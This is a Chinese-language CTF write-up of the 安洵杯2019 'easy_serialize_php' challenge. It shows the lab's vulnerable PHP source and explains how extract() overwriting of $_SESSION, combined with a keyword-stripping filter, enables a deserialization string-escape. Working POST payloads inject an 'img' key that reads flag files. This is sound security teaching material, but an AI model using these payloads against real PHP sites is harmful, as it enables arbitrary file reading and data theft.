




# 安洵杯2019-easy_serialize_php1

首先启动靶机并访问

```
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

---

**先进行代码审计**

**filter 这个function 可以看作一个过滤器，具体内容为首先定义了一个$filter_arr数组,数组的内容为：'php','flag','php5','php4','fl1g'，又定义了一个$filter的字符串，格式是为了迎合下面的preg_replease()函数,意思就是如果匹配到$filter_arr数组中的内容则将其转换为空，且由于i的缘故，不区分大小写.**  

**`if($_SESSION){unset($_SESSION);}意思是如果存在$_SESSION这个变量,则将其销毁`** 

 **extract()覆盖函数，会把我们传入的键和值变成变量的值。**

```
$my_array = array("a" => "cat","b" => "Dog","c" => "Horse");
extract($my_array);
echo "\$a = $a; \$b = $b; \$c = $c";

#$a = Cat;$b = Dog;$c = Horse
```

---

我们可以看到一个`//maybe you can find something in here!`提示，所以我们尝试查看一下他的php配置信息，

```
http://f4389e4c-fed1-4425-8200-b716de45d06e.node5.buuoj.cn:81/index.php?f=phpinfo
```



的确发现了一个好东西`d0g3_f1ag.php`，flag可能就存在这里面


由题目可以得知当$funcition的值为"show_image"时，会文件包含，这时只要我们使base64_decode解码后的$userinfo['img']为d0g3_f1ag.php即可，那么base64_decode()中的内容需要为ZDBnM19mMWFnLnBocA==

那么$userinfo()的内容中存在img=>ZDBnM19mMWFnLnBocA==的键值对,那么$serialzie_info则需要存在img=>ZDBnM19mMWFnLnBocA==的键值对的序列化内容,所以session中要存在img=>ZDBnM19mMWFnLnBocA==的键值对.

---

继续分析发现

```
extract($_POST);
if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}
```

这里如果我们通过extract传入img的值，会被覆盖掉


但是这里有个

```
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}

$serialize_info = filter(serialize($_SESSION));
```

这里会将我们传入的$_SESSION全局变量（数组类型）先进行序列化，然后进行过滤函数的过滤，会将

php、flag、php5、php4、fl1g等值替换为空。

所以我们可以通过这个过滤函数来实现字符串逃逸

---

首先我们先把我们要成功逃逸出来的序列化字符串构造出来

```
;s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

然后我们拿到本地去试一试

```
post：_SESSION[user]=;s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}

#a:2:{s:4:"user";s:40:";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

很明显我们这里要闭合掉前面的这几个字符

```
user";s:40:
```

闭合的字符个数为4，但是这里要闭合11个字符，所以要多增加7个字符

而phpflag正好7个字符

在键user的后面添加phpflag

```
post：_SESSION[userphpflag]=;s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}

#a:2:{s:11:"user";s:40:";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

可以看到成功闭合，然后给这个键随便添加一个值即可，这里就添加s:1:"1"

payload：

```
post：_SESSION[userphpflag]=;s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}

#a:2:{s:11:"user";s:48:";s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

---

传入payload：


没显示东西，看看源代码



告诉我们flag在/d0g3_fllllllag里。

首先要把 /d0g3_fllllllag 转成base64编码 L2QwZzNfZmxsbGxsbGFn

构造payload：

```
_SESSION[userphpflag]=;s:1:"1";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}
```

拿到flag




